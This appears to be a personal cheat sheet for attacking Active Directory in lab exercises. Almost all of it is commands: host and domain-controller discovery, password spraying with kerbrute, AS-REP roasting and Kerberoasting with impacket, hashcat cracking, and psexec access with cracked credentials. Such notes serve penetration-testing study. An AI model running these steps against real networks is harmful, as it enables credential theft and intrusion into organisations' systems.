 ### Active Directory

#### How to identify alive hosts in netowrk ?
1. Run nmap ping sweep, Command: `nmap -r -sn 192.168.110.0/24`
2. Run nmap ping sweep, Command: `nmap -r -sP 192.168.110.0/24` 

#### How to identify Domain Controller (DC) ?
1. Most probably a DC would be having open PORTS e.g 53 and 88 which are not avbl to other Windows machines.
2. If you're in DC network, Command: `nmap -r -v --open -sC -sV -p53,88,389,636 <DC IP>`
3. If above command shows these ports **OPEN** ... You got **DC** !!!

### How to extract the underlying Windows OS via crackmapexec?
1. Command: `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.52-55`

### How to know that username/password combination is valid - crakmapexec ?
1. If running follwing crackmapexec command against **DC** gives you **+** symbol, the **creds** are valid.
2. Command:  `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.55`

### How to know that username/password combination is valid - kerbrute (password spray) ?
1. Command: `./kerbrute_linux_amd64 passwordspray --dc 192.168.110.55 -d somedomain.htb AD_users.txt 'password'`
   
#### Using impacket - To find all the usernames, email address etc?
1. Without username/password command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -dc-ip 192.168.110.55`
2. With user/password of a valid domain user command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -all -dc-ip 192.168.110.55`

#### Using impacket - Authentication Service Response (AS-REP) Roasting?
1. Highly unlikely today, as by default, in **Active Directory**, it is more likely the feature that **enables** this attack is **disabled**.
2. When DC Admin creates a user in DC, he has to explictly check option **Do not require Kerberos Pre-Authentication**.
3. Commamd: `proxychains GetNPUsers.py somedomain.htb/ -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
4. Command: `proxychains GetNPUsers.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
5. If above command shows, *User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set*, this means, it doesn't work for this user. 
6. Crack the hashes, by running command: `hashcat -a 0 -m 18200 asrep-roast-hash.txt rockyou.txt`

#### Using impacket - Kerberoasting?
1. To get hashes, run command: `proxychains GetUserSPNs.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -request`
2. Cracking hashes: `hashcat -m 13100 kerberoasting.txt /usr/share/wordlists/rockyou.txt`

#### What to do if you have got valid user/password credentials ?
1. Lets assume Kerberoasting got successful, what to do next ?
2. Run cracmapexec, and if shows **Pwn3d!**, this means you can access that particular system.
3. Command: `proxychains crackmapexec smb 192.168.110.52-55 -u http_svc -p 'somepassword'`

#### Listing all the shares - crackmapexec ?
1. Command: `proxychains crackmapexec smb 192.168.110.52 -u http_svc -p 'somepassword' --shares`

#### Accessing that system e.g. we got creds after kerberoasting ?
1. Via psexec, command: `proxychains impacket-psexec somedomain.htb/http_svc:'somepassword'@192.168.110.52`
